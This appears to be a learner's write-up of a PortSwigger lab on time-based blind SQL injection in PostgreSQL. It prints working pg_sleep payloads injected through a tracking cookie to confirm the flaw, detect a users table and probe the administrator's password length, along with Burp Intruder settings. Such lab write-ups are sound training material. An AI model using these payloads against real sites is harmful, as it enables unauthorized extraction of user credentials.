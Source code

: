 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/906132fb-aaaa-40a2-8bae-549e655fd736)


## Solution :

query made--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

#### Checking that it is vulnerable to blind sql injection  -

query changed--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || pg_sleep(10)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a7e55875-624d-40cb-90b4-3ca17314936b)

Time delay of `20717`. SO it is vulnerable to blind sql injection.

#### Confirm that user table  present in the database-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/678c0f24-fda6-40a5-a46a-60009b68ba05)

Time delay of `15990`.so it is valid query so now we can find whether user table  present in the database or not.here we used the negtive number `-1` because when it is false it won't cause any delay.

when i changed the value from `1=1` to `1=0` it should not cause any dealy lets check if it coming correct or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6570c398-8a56-495b-babe-c345920f734c)

Time delay of `725` which is very much less 10 sec and it didn't cause any delay.So it is valid query so now we can find whether user table  present in the database or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0883964a-228a-4954-a7ec-ed0777a7973d)

Time delay of `12559`.which is larger than 10 sec so now we know user table  present in the database.

#### finding the length of the password--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50b23f29-6c26-4305-b909-b878d2861c94)

Time delay of `10719`.which is larger than 10 sec. So condition is true  length of the password is larger than `1`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>25) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4377c941-63fc-4134-ac0e-7ead36eba660)

Time delay of `725` which is less 10 sec. So condition is false  length of the password is smaller than `25`

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>$1$) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4829c5e2-08cf-478a-8ee1-75f04dc10515)

`we also remove the default resource pool because it mess up with my time based sql injection code by adding create new resource pool and  tick the maximum concentration requests and set it as 1 and start attack.`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/dd630b58-8799-4026-88e8-d80c852a0f10)















